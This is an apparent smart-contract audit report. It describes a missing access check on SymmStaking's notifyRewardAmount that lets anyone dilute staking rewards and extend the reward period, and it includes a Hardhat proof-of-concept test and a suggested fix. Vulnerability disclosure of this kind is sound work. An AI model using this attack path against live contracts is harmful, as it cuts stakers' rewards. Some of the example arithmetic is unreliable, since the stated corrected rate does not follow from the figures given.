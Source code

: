 Rural Orchid Capybara

High

# Arbitrary address can dilute the staking rewards because of missing access control

### Summary

Anyone can call `notifyRewardAmount` and dilute the reward amount

### Root Cause

In SymmStaking, `notifyRewardAmount` is missing access control. Anyone can call it with 1 wei amount, which internally will call `_addRewardsForToken`.

In `_addRewardsForToken`, if rewards period is not finished, [it will calculate the new rate with this formula](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L374C4-L374C54) `state.rate = (amount + leftover) / state.duration;`. This is wrong, because it shouldnt divide by the full duration, but by the remaining duration.

Too see the effect lets try a test:

Lets assume the following:
Duration: 30 days (2,592,000 seconds)
Initial reward: 30,000 tokens
Initial rate: 1,000 tokens/day

When first time `notifyRewardAmount` is called, the rate will be 1000 tokens per day.

Half way through the fn is called again with 30,000 tokens:

### What happened:
Duration - its reset to 30 days from now. This will mean that the original end is extended by 15 days.
New rate - Because duration is reset, this will = 1,500 per day.
### What should have happened:
Duration - left as it is
New rate - 4,000 per day


Because of the demonstrated effect, attacker can call it with amounts = 1 and dillute the rewards and make the process slow.



### Internal Pre-conditions

The attack cannot happen if the rewards period is over

### External Pre-conditions

Attack must have some amounts of the staked token

### Attack Path

1. attacker obtains some staked token
2. calls `notifyRewards` each time with amount = 1
3. the duration will always increase and rate delute

### Impact

Dilution of staking rewards; making the whole process extremely slow

### PoC

Create a test `.ts`:
```solidity
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers"
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers"
import { ethers } from "hardhat"
import { ERC20, Symmio, SymmStaking } from "../typechain-types"
import { e } from "../utils"
import { initializeFixture, RunContext } from "./Initialize.fixture"
import { expect } from "chai"

let context: RunContext
let symmStaking: SymmStaking
let stakingToken: Symmio
let user1: SignerWithAddress
let user2: SignerWithAddress
let admin: SignerWithAddress
let usdtToken: ERC20
let usdcToken: ERC20

describe('Vulnerabilities', () => {
    beforeEach(async function () {
        context = await loadFixture(initializeFixture)
        symmStaking = context.symmStaking
        admin = context.signers.admin
        user1 = context.signers.user1
        user2 = context.signers.user2
        stakingToken = context.symmioToken
    
        // 1. Mint initial balance of 100 SYMM (staking token) to user1, user2, and admin
        let initialBalance: bigint = e("100")
        await stakingToken.connect(admin).mint(user1.address, initialBalance)
        await stakingToken.connect(admin).mint(user2.address, initialBalance)
        await stakingToken.connect(admin).mint(admin.address, initialBalance)
    
        // 2. Deploy USDT (ERC20) and USDC (ERC20) tokens
        const ERC20 = await ethers.getContractFactory("MockERC20")
    
        // USDT Token
        usdtToken = await ERC20.connect(admin).deploy("USDT", "USDT")
        await usdtToken.waitForDeployment()
    
        // USDC Token
        usdcToken = await ERC20.deploy("USDC", "USDC")
        await usdcToken.waitForDeployment()
    })

    it('will show that anyone can dilute rewards and increase reward duration', async () => {
        // Configure USDC as a reward token
        await symmStaking.connect(admin).configureRewardToken(await usdcToken.getAddress(), true)
    
        await usdcToken.transfer(admin, "10000000000");
        await usdcToken.connect(admin).approve(await symmStaking.getAddress(), "10000000000");
        await symmStaking.connect(admin).notifyRewardAmount([await usdcToken.getAddress()], ["10000000000"]);

        console.log(await symmStaking.connect(admin).rewardState(await usdcToken.getAddress()));


        // User1 stakes tokens
        await stakingToken.connect(user1).approve(await symmStaking.getAddress(), "100000")
        await symmStaking.connect(user1).deposit("100000", user1.address)
    
        // User1 approves USDC to be used for rewards
        await usdcToken.transfer(user1, "1");
        await usdcToken.connect(user1).approve(await symmStaking.getAddress(), "1")
    
        // User1 adds initial USDC rewards
        await symmStaking.connect(user1).notifyRewardAmount([await usdcToken.getAddress()], ["1"])
        
        // Check initial reward state
        const originalRewardState = await symmStaking.connect(user1).rewardState(await usdcToken.getAddress());
        console.log("Original Reward State:", originalRewardState);
    
        await time.increase(86401);
    
        await usdcToken.transfer(user1, "1");
        await usdcToken.connect(user1).approve(await symmStaking.getAddress(), 1);
        
        await symmStaking.connect(user1).notifyRewardAmount([await usdcToken.getAddress()], [1])
    
        await time.increase(86401);
    
        const updatedRewardState = await symmStaking.connect(user1).rewardState(await usdcToken.getAddress());
        console.log("Updated Reward State:", updatedRewardState);
        
        // Optional: Add these lines to clearly show the vulnerability
        console.log("Reward rate decreased:", originalRewardState.rate > updatedRewardState.rate);
        console.log("Reward period extended:", updatedRewardState.periodFinish > originalRewardState.periodFinish);

        expect(originalRewardState.rate).to.above(updatedRewardState.rate);
        expect(updatedRewardState.periodFinish).to.above(originalRewardState.periodFinish);
    });
});
```

run the test with `npx hardhat test path/to/test.ts`

### Mitigation

Add restriction to the fn, so that its called by authorized and trusted parties. Fix the notification update fn so that it doesnt reset the period